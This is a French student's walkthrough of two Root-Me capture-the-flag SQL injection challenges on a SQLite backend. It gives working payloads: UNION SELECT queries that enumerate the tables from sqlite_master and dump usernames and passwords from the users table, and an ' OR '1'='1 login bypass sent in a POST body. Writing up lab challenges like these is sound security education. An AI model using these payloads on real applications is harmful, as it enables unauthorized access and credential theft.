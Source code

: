 **RootMe**
# SQL injection - String

URL : http://challenge01.root-me.org/web-serveur/ch19

Etudiant | Date | Sujet
:---|:---|:---
Hamza Terir | 23/11/2022 | SQLi


### Erreur SQL
```
admin'
```

![Pasted image 20221123135349](https://user-images.githubusercontent.com/122984033/213180205-c2af302a-74df-4617-a038-892e857cdc4a.png)

### Point d'injection

Le point d'injection est dans la barre de recherche qui est accessible à cette url :

http://challenge01.root-me.org/web-serveur/ch19/


![Pasted image 20230118141543](https://user-images.githubusercontent.com/122984033/213181856-63ba1da1-f3f7-4250-8f57-11e4e1fb3a1f.png)

## Exploitation

### Requête True
```sql
' OR 1=1
```

### Nombre de colonnes (2)
```sql
' UNION SELECT null,null -- 
```

#### Informations

Database version : SQLite3

### Version
```sql
' UNION SELECT null,sqlite_version() -- 
```

![Pasted image 20221123142951](https://user-images.githubusercontent.com/122984033/213182251-f8688658-98f8-41ff-adef-d2c3e06f2f4e.png)

### Tables
```sql
' UNION SELECT null,name FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123142924](https://user-images.githubusercontent.com/122984033/213182410-affcd2ee-e013-4412-ae5f-8f2898b5c88e.png)

### Schema Tables
```sql
' UNION SELECT null,sql FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123143111](https://user-images.githubusercontent.com/122984033/213182667-6599c824-048b-408f-a0e1-fa306d465e06.png)

### Identifiants
```sql
' UNION SELECT null,null OR 1=1

' UNION SELECT username,password FROM users -- 
```

## Flag

![Pasted image 20221123145118](https://user-images.githubusercontent.com/122984033/213182786-d5d61278-33ad-4465-b3f2-1719f0c7c521.png)


# SQL injection - Authentication

URL : http://challenge01.root-me.org/web-serveur/ch19

## Reconnaissance
### Detection

```sql
admin
admin'
```

![Pasted image 20230118143012](https://user-images.githubusercontent.com/122984033/213186831-23504ec9-2705-4345-9044-0ae77b53aace.png)

Requête POST /web-serveur/ch9/
```javascript
login=admin&password=admin%27
```

![Pasted image 20230118143340](https://user-images.githubusercontent.com/122984033/213187295-70abea90-85fe-48b5-baa8-ef888b7085e2.png)

On obtient l'erreur SQL de lase base de données SQlite3 :

![Pasted image 20230118143526](https://user-images.githubusercontent.com/122984033/213187431-b7e42334-f087-405a-a1f4-d2f3df818305.png)

# Exploitation

## Point d'injection
Requête POST avec la charge utile dans le point d'injection qui correspond à la partie password dans le formulaire :
```sql
login=admin&password=admin' OR '1'='1
```

![Pasted image 20230118143728](https://user-images.githubusercontent.com/122984033/213187676-ad879ddd-e43f-44c8-90e8-9ea310198293.png)

On obtient un accès au compte user1 :

![Pasted image 20230118143835](https://user-images.githubusercontent.com/122984033/213187815-f1fdc674-08df-4376-a86e-a1cd3565457c.png)









